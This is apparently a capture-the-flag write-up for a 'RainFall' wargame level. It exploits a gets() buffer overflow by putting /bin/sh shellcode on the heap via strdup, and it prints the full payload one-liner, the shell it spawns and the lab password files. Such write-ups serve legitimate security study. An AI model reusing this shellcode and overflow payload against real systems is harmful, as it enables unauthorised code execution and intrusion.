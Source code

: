 # Level2

## Analysis

**In `main` :**

Just a call to function `p()`

**In `p()` :**

call to `gets` which is vunerable to overflow
There is a protection afterward to check if `eip` doesn't get overwritten by an adress from the stack
we cannot use the stack but thanks to `strdup` we can use the heap

Adress of the allocated memory by strdup on the heap is `0x0804a008`
```
level2@RainFall:~$ echo "42" | ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
...
strdup("42")                = 0x0804a008
+++ exited (status 8) +++
```

___

## Exploit

Determine the offset of `eip` => 80
```
 ❯ python3 offset.py   
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

(gdb) r
Starting program: /home/user/level2/level2
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz%
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz%

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()

 ❯ python3 offset.py 55
80
```

We'll write a shellcode on the heap with `strdup`
and overwite `eip` to its adress

So the end buffer is:
 - shellcode (45 bytes)
 - NOP instructions (35 characters)
 - address allocated by strdup (4 bytes)
```
level2@RainFall:~$ python -c 'print "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90" * 35 + "\x08\xa0\x04\x08"' > /tmp/level2 && cat /tmp/level2 - | ./level2
�^�1��F�F
          �
           ���V
               ̀1ۉ�@̀�����/bin/sh�������������������������������
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

___

*Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77*